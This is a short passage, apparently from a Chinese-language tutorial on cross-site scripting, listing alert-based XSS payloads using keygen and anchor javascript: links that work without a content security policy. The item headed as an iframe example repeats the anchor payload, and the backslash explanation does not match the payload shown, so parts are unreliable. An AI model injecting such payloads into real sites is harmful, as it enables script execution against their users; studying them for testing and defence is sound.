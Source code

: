啰啰嗦嗦yyppp一大堆 (逃。。

------

**特别说明：** 例如payload：`<keygen autofocus onfocus=alert(/xss/)>` 为什么有两个反斜杠，<br>

如果不加的话输出不了，`反斜杠` 相当于 `""` 引号

----------

**下面再例举一些，**<br>

PS：在无**`CSP(内容安全策略(Content Security Policy，CSP))`**的情况下才可以 <br>

**1.** `<a>`标签

payload: `<a href="javascript:alert(`xss`);">xss</a>` <br>

点击后触发 <br>

![images](/images/2019-03-23/xss18.png)

-----

**2.** `<iframe>`标签

payload: `<a href="javascript:alert(`xss`);">xss</a>` <br>
